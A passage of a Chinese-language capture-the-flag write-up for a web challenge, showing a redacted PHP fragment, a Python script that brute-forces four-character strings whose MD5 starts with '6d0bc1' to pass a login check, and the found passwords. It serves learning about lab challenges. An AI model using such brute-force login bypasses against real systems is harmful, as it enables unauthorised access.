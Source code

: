 ```php
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

密码`md5`值的前6位需要是`6d0bc1`才能正常登录,那么首先需要爆破一下符合这样条件的字符串:

```python
from hashlib import md5
import itertools

chars = [chr(i) for i in range(32,128)]

for s in itertools.product(chars, repeat=4):
    # 此迭代器product可以叠加笛卡尔积,repeat设为4,也就是chars中字符的任意4位组合
    m = "".join(s)
    if md5(m.encode()).hexdigest()[:6] == '6d0bc1':
        print(m)
# 学到了,利用itertools.product来迭代任意组合,只用for的话需要嵌套才能做到

#执行结果:
 Rbl
RhPd
d`H6
kX!}
```

使用爆破出来的密码成功登录, 这里响应头中提示了我们url

![image-20221023181519105](/images/buuctf-web2/image-20221023181519105.png)
